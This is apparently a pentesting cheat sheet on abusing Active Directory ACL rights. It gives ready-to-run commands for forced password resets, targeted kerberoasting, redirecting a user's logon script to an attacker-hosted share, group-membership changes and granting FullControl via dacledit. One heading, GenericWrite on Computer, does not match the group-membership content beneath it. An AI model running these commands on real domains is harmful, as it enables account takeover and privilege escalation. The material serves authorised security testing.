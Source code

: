 These privileges should be checked from the following targets:
- Domain Users group
- Domain Computers group
- Owned users and/or computers object

#### Abusing ForceChangePassword
Assuming user `pentestuser` has ForceChangePassword privilege over user `admuser`.  using PowerView :
```
$creds = New-Object System.Management.Automation.PSCredential ("my.domain.com\pentestuser", (ConvertTo-SecureString "MyPass$w0d" -AsPlainText -Force))
$UserPassword = ConvertTo-SecureString 'NewP@$$w0rd' -AsPlainText -Force
Set-DomainUserPassword -Identity admuser -AccountPassword $UserPassword -Credential $creds -Verbose
```
In some special cases, it is needed to change computer password; PowerView does not contain by defaut Set-DomainComputerPassword. It has been implemented here [Set-DomainComputerPassword](https://github.com/pentestusersa/SetDomainComputerPassword)

#### Abusing GenericWrite on User
This permission allows an attacker to modify user properties and can be exploited in different ways: 
- **targetKerberoasting**
Here, it is matter of adding an SPN to the user, asking for a tgs, removing the SPN on the user, and cracking the TGS just like a classic kerberoasting. For this to be succesful, the user password should be weak enough to be cracked.
```
targetedKerberoast.py -v -d my.domain.com -u pentestuser -p myPassWord --request-user admuser
```
- **logonScript**
The attacker can change the logon script path of a user to execute a malicious script upon user logon. This is achieved by using the `Set-ADObject` command to update the `scriptpath` property of the target user to point to the attacker's script:
```
Set-ADObject -SamAccountName admuser -PropertyName scriptpath -PropertyValue "\\10.0.0.5\newlogonScript.ps1"
```
To show the scriptpath ldap value `ldeep` tool can be used ldeep :
```
ldeep ldap -u pentestuser -p 'myPassWord' -d my.domain.com -s ldap://10.X.X.X search '(sAMAccountName=admuser)' scriptpath
```
#### Abusing GenericWrite on Computer
With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. Below is an example of achieve it with PowerView:
``` 
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('my.domain.com\pentestuser', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'admuser' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'admuser' -Verbose
```
#### Abusing WriteDacl on User
Having WriteDACL privileges enables an attacker to grant himself any permission over the user including "Full Control":
```
#Reading pentestuser’s right on admuser :
dacledit.py -action 'read' -principal pentestuser -target 'admuser' 'my.domain.com'/'pentestuser':'myPassWord'

#Granting FullControl permission
dacledit.py -action 'write' -rights 'FullControl' -principal pentestuser -target 'admuser' 'my.domain.com'/'pentestuser':'myPassWord'
```
The FullControl permission grants the ability to fully control an object, including resetting its password or performing attacks such as target kerberoasting, for example.
